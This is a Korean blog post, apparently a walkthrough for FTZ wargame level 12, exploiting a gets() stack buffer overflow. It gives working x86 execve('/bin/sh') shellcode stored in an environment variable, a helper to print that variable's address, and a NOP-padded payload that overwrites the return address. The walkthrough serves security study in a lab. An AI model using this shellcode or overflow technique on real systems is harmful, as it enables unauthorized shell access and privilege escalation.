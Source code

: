 ```yaml
---
title:  "[FTZ] level 12"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-01 00:02:29

---
```


# level 12

**level12 / it is like this**

힌트

![image](https://user-images.githubusercontent.com/69203345/144245866-c8d46fca-5e50-46b0-a53c-bcc3ecb9335c.png)

![image](https://user-images.githubusercontent.com/69203345/144246006-4d8af91c-7b7c-4d3a-b0cf-305568326083.png)

level 11 로 들어간줄...ㅋㅋㅋㅋㅋㅋㅋㅋㅋㅋ  

이번엔 gets로 받는다  
gets함수 역시 문자열의 길이를 확인하지 않기 때문에 버퍼오버플로우에 취약하다

![image](https://user-images.githubusercontent.com/69203345/144246984-77f63a82-415a-435d-9dea-c6c753a425b8.png)

일단 해보자  

0x08048473 <main+3>: sub esp,0x108  
char str[256]의 0x100 공간을 확보한후 dummy 0x8만큼 확보했다  
총 264byte 공간확보

0x08048479 <main+9>: sub esp,0x8  
총 272byte 공간확보

아마 스택의 구조는 level11과 같지 않을까 싶다

높은주소

[ RET(4) ]  
[ SFP(4) ]  
[ dummy(8) ]  
[ str(256) ]  

낮은주소

이번에는 환경변수로 해결  
tmp 폴더로 이동후 아래 명령어 작성

사용할 쉘 코드 주소값을 환경변수로 등록
>$export EGG=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

환경변수 SHELLCODE의 주소 값 확인
>$echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c

>$gcc getenv.c -o getenv\\
$./getenv

![image](https://user-images.githubusercontent.com/69203345/144251580-8eec3861-c515-4b70-8ef4-c8f0c8f71a02.png)


0xbffffc8e 에 있다고 한다  
0xbffffc8e를 리턴 주소로 잡고 bof 시도  

gets는 입력 대기 상태에서 값을 입력받으므로 
>(python -c 'print"\x90"*268+"\x8e\xfc\xff\xbf"'; cat) | ./attackme

python프로그램을 사용하여 \x90(1byte)를 268만큼 출력 해서 SFP까지 덮음  
RET주소에 ./getenv를 통해 출력된 쉘 코드 주소 값을 채워 넣음

![image](https://user-images.githubusercontent.com/69203345/144253095-60ad4622-522b-4515-a771-a00d03f8044a.png)

환경변수를 이용하면 깔끔하네

다음!